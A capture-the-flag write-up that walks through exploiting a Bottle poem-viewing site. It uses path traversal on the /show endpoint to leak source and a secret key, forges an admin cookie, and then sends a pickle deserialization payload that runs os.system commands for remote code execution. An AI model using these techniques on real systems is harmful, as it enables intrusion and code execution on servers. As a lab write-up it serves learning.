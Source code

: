 
# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem

// insert image here

# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`

![url](../media/Prompt_Injection_url.png)

the value of `id` is a filename, so let's try if the server has a lfi vulnerbility

![screenshot](../media/lfi.png)

the server is indeed vurlnable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front

![app filter](../media/app_filter.png)

```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it

![leaking secret.py](../media/leaking_secret.png)

now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`

![admin_cookie](../media/admin_cookie.png)

using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates

![template](../media/guest_temp.png)
![template](../media/admin_temp.png)
![template](../media/index_temp.png)

i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the mulishous cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result

![](../media/screenshot.png)

we find that there is a `flag` file in the `/` directory, it only has executing permisions

![](../media/screenshot2.png)

and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```

![](../media/flag.png)